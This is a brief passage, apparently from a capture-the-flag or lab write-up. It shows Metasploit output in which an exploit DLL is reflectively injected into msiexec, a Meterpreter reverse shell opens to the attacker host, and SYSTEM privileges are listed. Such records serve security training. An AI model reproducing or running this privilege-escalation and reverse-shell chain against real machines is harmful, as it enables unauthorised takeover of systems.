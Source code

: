 ```
[*] Reflectively injecting the exploit DLL and running the exploit...
[*] Launching msiexec to host the DLL...
[+] Process 3444 launched.
[*] Reflectively injecting the DLL into 3444...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.14.6:4444 -> 10.10.10.5:49176 ) at 2022-03-02 13:30:02 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateSymbolicLinkPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRelabelPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeTimeZonePrivilege
SeTrustedCredManAccessPrivilege
SeUndockPrivilege
```

Now we have gained privilege over the target machine
